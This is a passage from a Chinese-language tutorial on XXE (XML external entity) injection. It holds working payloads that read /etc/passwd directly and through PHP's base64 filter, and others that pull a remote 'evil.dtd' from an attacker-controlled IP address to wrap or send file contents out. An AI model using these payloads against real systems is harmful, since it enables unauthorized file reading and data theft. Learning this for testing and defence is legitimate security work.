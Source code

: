 (1) 使用 % 实体名(这里面空格不能少) 在 DTD 中定义，并且只能在 DTD 中使用 % 实体名; 引用<br>
(2) 只有在 DTD 文件中，参数实体的声明才能引用其他实体<br>
(3) 和通用实体一样，参数实体也可以外部引用<br>
```xml
<?xml version="1.0"?>
<!DOCTYPE ANY[
	<!ENTITY % file SYSTEM "file:///C:/windows/win.ini">
	<!ENTITY % remote SYSTEM "http://192.168.100.1/test.xml">
	%remote; %all; <!--  只有在 DTD 文件中，参数实体的声明才能引用其他实体 -->
]>
<root>&send;</root>
```
# **2 我们能做什么? XXE的利用**
## **2.1 有回显读本地敏感文件(Normal XXE)**
• **Payload**
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
        <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<root> <name>&xxe;</name> </root>
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200222114016265.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhaWRlMjAxMg==,size_16,color_FFFFFF,t_70)

但是因为这个文件没有什么特殊符号，于是我们读取的时候可以说是相当的顺利, 那么有特殊符号的文件呢?

• **对于PHP来说，可以使用伪协议返回base64字符串**
```xml
<?xml version="1.0" encoding="utf-8"?>
	<!DOCTYPE xxe [
	<!ELEMENT name ANY >
          <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd" >
]>
 <root> <name>&xxe;</name> </root>
 ```
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/20200222114227237.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhaWRlMjAxMg==,size_16,color_FFFFFF,t_70)

• **使用CDATA不返回被解析的数据**

有些内容可能不想让解析引擎解析执行，而是当做原始的内容处理，用于把整段数据解析为纯字符数据而不是标记的情况包含大量的 <> & 或者
“ 字符，CDATA节中的所有字符都会被当做元素字符数据的常量部分，而不是 xml标记，可以输入任意字符除了]]>不能嵌套。用处是万一某个标签内容包含特殊字符或者不确定字符，我们可以用 CDATA包起来。如何包裹呢？？？我们知道我们只有一种选择，就是使用 参数实体。
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE roottag [
 <!ENTITY % start "<![CDATA[">   
 <!ENTITY % goodies SYSTEM "file:///etc/passwd">  
 <!ENTITY % end "]]>">  
 <!ENTITY % dtd SYSTEM "http://192.168.137.131:8081/evil.dtd">
%dtd; ]>
<roottag><name>&all;</name></roottag>

evil.dtd文件的内容为：
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY all "%start;%goodies;%end;">
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200222114457796.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhaWRlMjAxMg==,size_16,color_FFFFFF,t_70)
